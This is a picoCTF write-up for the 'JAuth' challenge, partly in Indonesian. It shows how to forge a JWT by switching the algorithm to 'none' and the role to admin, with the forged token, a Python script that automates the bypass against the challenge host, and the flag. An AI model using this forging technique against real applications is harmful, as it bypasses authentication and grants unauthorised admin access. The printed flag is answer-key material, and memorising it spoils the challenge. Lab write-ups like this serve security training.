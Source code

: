 <h1>JAuth</h1>
<p>Most web application developers use third party components without testing their security. Some of the past affected companies are:.</p>
<ul>
  <li>Equifax (a US credit bureau organization) - breach due to unpatched Apache Struts web framework CVE-2017-5638</li>
  <li>Mossack Fonesca (Panama Papers law firm) breach - unpatched version of Drupal CMS used</li>
  <li>VerticalScope (internet media company) - outdated version of vBulletin forum software used</li>
</ul>
<p>Can you identify the components and exploit the vulnerable one?
The website is running here. Can you become an admin?
You can login as test with the password Test123! to get started.</p>

<p>Hint :</p>
<ul>
  <li>Use the web browser tools to check out the JWT cookie.</li>
  <li>The JWT should always have two (2) . separators.</li>
</ul>
<h3>Solution</h3>
<p>Login username=test Password=Test123 pada web, dan ambil JWT pada cookie, lanjut JWT Attack</p>

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJhdXRoIjoxNjYyNjE5MDM2MjQ3LCJhZ2VudCI6Ik1vemlsbGEvNS4wIChXaW5kb3dzIE5UIDEwLjA7IFdpbjY0OyB4NjQpIEFwcGxlV2ViS2l0LzUzNy4zNiAoS0hUTUwsIGxpa2UgR2Vja28pIENocm9tZS8xMDUuMC4wLjAgU2FmYXJpLzUzNy4zNiIsInJvbGUiOiJ1c2VyIiwiaWF0IjoxNjYyNjE5MDM2fQ.8SAus5Cq2cRtS7or8oVro_oZorI9PAqhu3XFzVkBm5g
```
<p>JWT terdiri dari Header, Payload, Signature. yang jika didecode pada <a href='https://token.dev/'>link</a> Didapatkan</p>

```
{
  "typ": "JWT",
  "alg": "HS256"
}
{
  "auth": 1662611103288,
  "agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36",
  "role": "user",
  "iat": 1662611103
}
HMACSHA256(
  base64UrlEncode(header) + "." +
  base64UrlEncode(payload),
  
your-256-bit-secret

) secret base64 encoded
```
<p>Ganti header alg=HS256 ke alg=none, dan role=user menjadi role=admin dan hasilnya tanpa signature (header,payload,signature dipisah dengan titik)</p>

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJhdXRoIjoxNjYyNjE5MDM2MjQ3LCJhZ2VudCI6Ik1vemlsbGEvNS4wIChXaW5kb3dzIE5UIDEwLjA7IFdpbjY0OyB4NjQpIEFwcGxlV2ViS2l0LzUzNy4zNiAoS0hUTUwsIGxpa2UgR2Vja28pIENocm9tZS8xMDUuMC4wLjAgU2FmYXJpLzUzNy4zNiIsInJvbGUiOiJhZG1pbiIsImlhdCI6MTY2MjYxOTAzNn0.
```

```python3
import requests
import base64

url = 'http://saturn.picoctf.net:55823/auth'
new_url = 'http://saturn.picoctf.net:55823/private'
ses = requests.Session()
data = {'username':'test',
        'password':'Test123!'}

response = ses.post(url,data=data)
cookieJar = ses.cookies.get_dict()
for i in cookieJar.values():
    split_token = i.split('.')
    header = base64.b64decode(split_token[0]).decode('ascii').replace('HS256','none')
    payload = base64.b64decode(split_token[1]+'=').decode('ascii').replace('user','admin')
    data_1 = base64.b64encode(header.encode('utf8')).decode('ascii')[:-1]+'.'
    data_2 = base64.b64encode(payload.encode('utf8')).decode('ascii')+'.'
    new_cookies = {'token':data_1+data_2}
    print(new_cookies)
    get_flag = requests.post(new_url,cookies=new_cookies).text
    print(get_flag)
```
<p>Ganti token dan refresh halaman</p>
<h3>Flag</h3>
<p>picoCTF{succ3ss_@u7h3nt1c@710n_bc6d9041}</p>
